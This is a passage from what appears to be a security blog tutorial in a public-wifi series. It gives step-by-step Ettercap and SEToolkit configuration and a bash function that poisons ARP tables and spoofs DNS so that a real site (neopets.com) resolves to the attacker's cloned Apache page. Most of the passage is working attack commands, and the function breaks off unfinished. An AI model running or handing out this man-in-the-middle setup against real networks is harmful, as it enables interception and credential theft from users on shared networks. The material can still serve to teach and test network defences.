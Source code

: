 Now we need to modify the hijacked config file. We will address 4 specific lines.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.hijack.conf
{% endhighlight %}

Now that we are inside the file, look for the following lines and change their value to zero

{% highlight ruby %}
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default
{% endhighlight %}

This means Ettercap has the privileges to write data. The default is 65534 (nobody)

Press Ctrl+O to save out. Then Ctrl+X to exit

Next, configure our site cloning tool SEToolkit.

{% highlight ruby %}
sudo nano /etc/ettercap/set.config
{% endhighlight %}

Press Ctrl+W and type "APACHE" and make the following changes

{% highlight ruby %}
APACHE_SERVER = ON
APACHE_DIRECTORY=/var/www/html
{% endhighlight %}

Save with Ctrl+O and exit with Ctrl+X.

<b>Making life easier with the .bashrc file</b>

The first thing we will need to do is create an environment variable. You may have noticed a few at the top already. This new one will be able to hold multiple values in case we want to attack multiple domains. I will add in example.com just to demonstrate, but today we will only need to worry about neopets.com.

{% highlight ruby %}
dns_hijack_target=('example.com' 'neopets.com' );
#We can add as many sites as we want. Seperated by spaces.
{% endhighlight %}

Now go to the bottom of all your functions and add the following

{% highlight ruby %}
function dns_hijack ()
{
#forward IP
sudo sysctl -w net.ipv4.ip_forward=1;

#copies the modified files
sudo rm /etc/ettercap/etter.conf;
sudo cp /etc/ettercap/etter.hijack.conf /etc/ettercap/etter.conf;
sudo rm /etc/ettercap/etter.dns;
sudo cp /etc/ettercap/etter.blank.dns /etc/ettercap/etter.dns;

#adds all the domains in $dns_hijack_target to the blank DNS file.
for ((i = 0; i < ${#dns_hijack_target[@]}; i++))
        do
        echo ${dns_hijack_target[i]}"      A   "$myIP | sudo tee -a /etc/ettercap/etter.dns; 
        echo "*."${dns_hijack_target[i]}"    A   "$myIP | sudo tee -a /etc/ettercap/etter.dns;
        done

#opens a webserver
sudo systemctl start apache2;

#poisons the ARP table using the DNS spoof plugin (-P dns_spoof)
sudo ettercap -T -i $adp -P dns_spoof -M arp:remote /$targetIP// /$gatewayIP//;

#when the operation is complete, the script will automaticly close the server and turn off IP forwarding.

[part-1]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_1.html
[part-4]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_4.html
[reddit.com]: http://www.reddit.com
[part-2]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_2.html
